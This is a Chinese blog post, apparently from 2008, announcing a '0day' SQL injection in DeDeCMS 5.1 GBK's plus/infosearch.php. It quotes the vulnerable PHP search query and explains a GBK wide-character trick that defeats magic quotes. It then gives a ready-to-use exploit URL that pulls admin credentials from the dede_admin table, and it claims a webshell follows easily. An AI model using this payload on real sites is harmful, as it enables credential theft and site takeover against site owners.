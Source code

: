 ```yaml
---
title: DeDecms 5.1 gbk版0day
description: 一个月前看了看了DeDecms5.1gbk代码（只看了plus下的文件），发现有些变量人为控制没有过滤，但是在php的魔法引号这道天然屏障面前利用几率不好,但是联想到gbk的宽字符，突破方法就有了。
date: 2008-11-15 12:02:28
category: 漏洞信息
tags: ['DeDecms', '0day']
post_id: 681
alias: DeDecms-5.1-gbk-0day
ViewNums: 3949
---
```


一个月前看了看了**[DeDecms 5.1 gbk](/blog/dedecms-51-gbk-0day)**代码（只看了plus下的文件），发现有些变量人为控制没有过滤，但是在php的魔法引号这道天然屏障面前利用几率不好,但是联想到gbk的宽字符，突破方法就有了。

漏洞文件：plus/infosearch.php

测试版本：DeDecms 5.1 gbk

描述：$q变量没有过滤直接进入查询，导致注入出现。代码如下：

PHP代码

$q = trim($q);
if($areaid > 0) {
$wheresql = "areaid=$areaid and ";
}

$query = "select ID,typeid,title,memberID,writer,senddate from #@__infos where $wheresql title like '%$q%' order by senddate desc";

$dlist = new DataList();

$dlist->pageSize = 20;
$dlist->SetParameter("q",$q);
$dlist->SetParameter("action",'search');
$dlist->SetParameter("areaid",$areaid);
$dlist->SetSource($query);“‘”突破了，那就照常注入。

测试站：
http://www.xxx.com/plus/infosearch.php?action=search&q=%cf'%20union%20select%201,2,id,4,pwd,6%20from%20dede_admin/*

至于后台拿shell,找不到后台的一样可以轻松拿到shell。

还有几个文件存在注入问题，象feedback.php,后续发放分析。

From:<http://www.tojen.cn/news/20080110822..html>

